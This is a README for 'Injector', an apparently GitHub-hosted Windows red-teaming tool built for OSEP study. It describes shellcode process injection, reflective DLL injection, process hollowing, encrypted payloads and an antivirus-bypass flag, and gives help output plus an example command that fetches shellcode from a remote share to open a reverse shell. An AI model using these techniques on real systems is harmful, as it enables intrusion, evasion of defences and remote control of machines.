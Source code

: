 # Injector
Complete Arsenal of Memory injection and other techniques for red-teaming in Windows

# What does Injector do?

- Process injection support for shellcode located at remote server as well as local storage. Just specify the shellcode file and it will do the rest. It will by default inject into notepad.exe and if not found, it will create a notepad process and inject into it for persistence.

- Reflective DLL Injection for DLL injection. It downloads the DLL and injects into remote process.
- Process hollowing via svchosts.exe
- With -bypass flag it tends to use more advanced un-documented API for process injeciton and the routine itself gets changes.
- Now even supports encrypted shellcode. 

```
C:\Users\admin>Injector.exe
Help Options for Xenon:
-m       Mode of operation
        -m 1     Specifies the mode as Process injection
        -m 2     Specifies the mode as Reflective DLL Injection
        -m 3     Specifies the mode as Process Hollowing

-shellcode       Use shellcode
-dll     Use dll

-encrypt-xor   Specify Xor encryption for shellcode
         -pass   Specifty the password for Xor encryption
-encrypt-aes   Specify Xor encryption for shellcode
         -pass   Specifty the password for aes encryption
-location        Specify the location i.e either server or local
-bypass         Uses enhance attempts to bypass AV
```

To generate encrypted shellcode, use Helper.exe on kali along with proper switch.

### Example of usage

```
Injector.exe -m=1 -shellcode -encrypt-aes -pass=password -location="\\192.x.x.x\share\shellcode.txt" -bypass
```
This is will decrypt your shellcode and give you reverse shell

# Why make it?

Main aim is to help me in OSEP :P

**NOTE: Work in Progress. Some functionality might be broken!**

